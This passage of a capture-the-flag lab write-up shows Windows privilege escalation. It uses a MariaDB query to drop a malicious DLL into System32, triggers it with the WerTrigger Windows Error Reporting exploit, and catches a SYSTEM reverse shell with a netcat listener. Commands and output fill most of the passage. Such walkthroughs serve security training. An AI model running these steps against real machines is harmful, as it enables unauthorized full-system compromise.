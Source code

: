 ```sql
MariaDB [(none)]> SELECT LOAD_FILE('C:\\\\xampp\\htdocs\\phoneinfo.dll') INTO DUMPFILE 'C:\\Windows\\System32\\phoneinfo.dll';
Query OK, 1 row affected (0.123 sec)

MariaDB [(none)]>
```
{: .nolineno}

I think I did it , I actually transfred the file into that location .

Now as the exploit said that the <span style="color:#f04276">Report.wer</span> file and the <span style="color:#f04276">WerTrigger.exe</span> file should be in a directory so lets transfer those through SMB share only.

Now lets trigger <span style="color:#f04276">WerTrigger.exe</span> file to get a call back on listener port 443 🔻

```powershell
C:\xampp\htdocs>.\WerTrigger.exe
[+] Windows Error Reporting Trigger by @404death !
[+] Trigger launched.
[*] TCP connecting...
[*] Waiting for the DLL to be loaded...
[-] Unable to connect to server!
[*] Retrying ...
[-] Unable to connect to server!
[*] Retrying ...
[-] Unable to connect to server!
[-] Exploit failed.
C:\xampp\htdocs>
```
{: .nolineno}

I received the reverse shell on port 443 as planed 🔻

```powershell
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Practice/Craft2]
└─$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.214] from (UNKNOWN) [192.168.182.188] 49693
Microsoft Windows [Version 10.0.17763.2746]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd C:\Users\
cd C:\Users\

C:\Users>cd Administrator
cd Administrator

C:\Users\Administrator>tree /f /a
tree /f /a
Folder PATH listing
Volume serial number is 5C30-DCD7
C:.
+---3D Objects
+---Contacts
+---Desktop
|       proof.txt
|       
+---Documents
+---Downloads
+---Favorites
```